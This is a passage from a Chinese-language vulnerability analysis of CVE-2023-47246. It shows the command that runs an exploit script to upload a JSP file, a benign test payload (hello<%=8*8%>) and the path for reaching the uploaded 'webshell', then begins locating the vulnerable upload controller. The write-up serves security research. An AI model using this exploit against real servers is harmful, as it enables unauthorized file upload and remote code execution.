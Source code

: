 运行exp：

```plain
python CVE-2023-47246-EXP.py -u http://host:8080 -p http://127.0.0.1:8088 -f 2.jsp
```

这里上传 2.jsp ：

```plain
hello<%=8*8%>
```

[![](assets/1701606560-465d571ccd6bd145a8f4c66e48adebc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122144540-c051a8e2-8902-1.png)

成功上传，访问所上传的webshell：

```plain
http://domain/6YY7Y/2.jsp
```

[![](assets/1701606560-ab92657f0eb790dc1b875f2d50a74794.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104218-c10a8424-88e0-1.png)

# 0x04 漏洞分析

查看日志，确定文件上传的路由对应的Controller是 `com.ilient.server.UserEntry` 这个类：

[![](assets/1701606560-a9036bd474affed9d6a3c6d142ec7a9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104319-e564580e-88e0-1.png)
